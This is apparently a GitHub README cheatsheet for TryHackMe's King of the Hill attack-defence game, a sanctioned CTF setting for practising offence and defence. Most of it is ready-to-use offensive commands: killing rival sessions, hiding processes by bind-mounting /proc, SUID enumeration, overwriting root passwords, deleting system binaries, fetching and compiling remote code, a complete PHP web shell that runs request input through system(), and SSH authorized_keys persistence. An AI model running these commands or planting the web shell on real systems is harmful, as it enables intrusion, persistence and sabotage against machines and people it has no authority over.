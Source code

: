 # Koth 👨🏻‍💻Hacker Vs Hacker👨🏻‍💻 Techniques
TryHackMe KOTH Cheatsheet  
-----------------------------   
<div align="center">

![3](https://media.giphy.com/media/oVvhEYvWDvE1G/giphy.gif)
</div>

***Description:***
In the King of the Hill (KoTH) Attack-Defence challenge, your goal is to compromise the target machine and gain access to the coveted /root/king.txt file on Linux machines or C:\king.txt (or C:\Users\Administrator\king-server\king.txt) on Windows machines. Once you've successfully breached the system, your task is to maintain access and defend the king file from other players.

-----------------------------  
<div align="center">

![3](https://media.giphy.com/media/xsCevAab5ufj37BeGR/giphy.gif)
</div>

## --> [ Hacker Vs Hacker ] <--
 
- ***you can check who is on the machine, by using the following command.*** 
```
ps aux | grep pts
```
- ***If you're looking for your pts id/number:*** 
```
tty
```
- ***killing session of other players:***
```
pkill -9 -t pts/$0   # Here $0 = pts/id number
```


- ***If your opponent killing your session, again and again. you can use this command to hide your shell (pts id) on the machine***

- ***To get the PID of your PTS.***

```
ps aux 
```
- ***Hide your PTS***
```
mount -o bind /tmp /proc/your-PID-here
```
***if you use this command then your opponent will not be able to kill your session Anymore ;)*** 

## --> [ Useful Websites to get Reverse shell & Privilege escalation ] <--


- ***Use this website to generate Reverse shell command (bash,python,PHP,socat)***
```
https://www.revshells.com/ 
```
- ***Use this github repo to get code of php-reverse-shell.php*** 
```
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php 
```
- ***GTFoBins is a curated list of Unix binaries that can be used to escalate Privilege:***
``` 
https://gtfobins.github.io/ 
```
## --> [ Finding Binaries and flags ] <--  
<div align="center">

![3](https://media.giphy.com/media/xT8qAXT3f4sZTvjqZq/giphy.gif)
</div>

- ***If you're looking for Binaries that has root permissions:***
```
1) find / -perm -u=s -type f 2>/dev/null
```
```
2) find / -type f \( -perm -4000 -o -perm -2000 \) -print 
```
```
3) find / -perm /4000 2>/dev/null
```
- ***If you're looking for Binaries that has Sudo permissions:***
```
sudo -l 
```
- ***If you're looking for Flags:***
```
1) find / -name "user.txt" 2>/dev/null
```
```
2) find / -name root.txt 2>/dev/null 
```
```
3) find / -name .flag 2>/dev/null
```

## --> [ Changing User Password ] <--

- ***Change the password for the root user and other existing users using one-liners:***

```
1) echo -e "YOURpassword\nYOURpassword" | passwd root
```
```
2) echo -e "YOURpassword\nYOURpassword" | passwd user 
```

## --> [ Protect Your Name in King.txt ] <--  

- ***protect king.txt using chattr.***

***[Activate]***
```
chattr +i king.txt 

```
***[Deactivate]***
```
chattr -i king.txt 

```

- ***Use chattr loops to protect  lock your name in king.txt***

```
while [ 1 ]; do chattr -ia /root/king.txt 2>/dev/null; echo -n "YourNick" >| /root/king.txt 2>/dev/null; chattr +ia /root/king.txt 2>/dev/null; done &  

```
- ***Use Chattr for lock /root folder:***
```
cd / && chattr +i root
```
## --> [ Remove && Install Chattr binarie in target machine ] <--

***It is forbidden to change the permission of binaries in Koth Match, for example give a chmod 700 /usr/bin/find, except chattr, the chattr binary is allowed to remove from the machine.( remove from the machine after you use: [Activate] chattr +i king.txt ).*** 
 
- ***Remove chattr so no one will be able to change the attributes of king.txt***
- 
***[Deactivate]*** 
```
rm /usr/bin/chattr
```
- ***but if you have access to a koth box and you don't have chattr you can get a chattr binary from github and compile it on the machine:***
```
wget https://raw.githubusercontent.com/posborne/linux-programming-interface-exercises/master/15-file-attributes/chattr.c 
```
```
gcc chattr.c -o chattr 
```
```
./chattr +i king.txt 
```

## --> [ Unmount other player name from king.txt] <--

***if you try to put your nick  in /root/king.txt and the message "Read-only file system" appears, that means the other player is used Mount technique.*** 

- ***Unmount king.txt using umount:***
```
umount -l /root
umount -l /root/king.txt 
```
## PHP Web CMD Shell

**Get Shell by exploiting file upload Vulnerability**

![Web-CMD-shell-search](https://github.com/DevVj-1/Koth-Hacker-Vs-Hacker_Techniques-/assets/106962581/eb2697f2-7a85-4744-90ae-a7337e52b134)


```
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

## ---> Shell Persistence using SSH <---

<div align="center">

![3](https://media.giphy.com/media/xT8qB2HYA1vVSxooSY/giphy.gif)
</div>

**Shell Persistence using SSH - Attacker Terminal & Target Terminal**

Step 1: Navigate to the SSH directory on your Target Terminal - 

```
cd /root/.ssh
```
Step 1.2 :- Return to your attacker Terminal and execute: 
```
cd /root/.ssh
```
Step 2: Return to your attacker terminal and execute:
```
ssh-keygen -t rsa
```

[Attacker Terminal] Step 3: Display the content of id_rsa.pub using cat id_rsa.pub and copy its content using:
```
cat id_rsa.pub """ <Content> """ > authorized_keys
```
**Example:**
![Screenshot_2024-01-04_19-28-42](https://github.com/DevVj-1/Koth-Hacker-Vs-Hacker_Techniques-/assets/106962581/d90c075a-92a0-4f49-85d5-91d1d8231c89)

[Attacker Terminal] Step 4: Set the permissions for id_rsa - 
```
chmod 600 id_rsa
```

**Attacker Terminal Step 4.1: Send authorized_keys to the target system.:)**

[Target Terminal] Step 5: Set permissions for authorized_keys -
```
chmod 700 authorized_keys
```

[Attacker Terminal] Step 6: Connect to the target system using the generated key - 

```
ssh -i id_rsa root@127.0.0.1
```
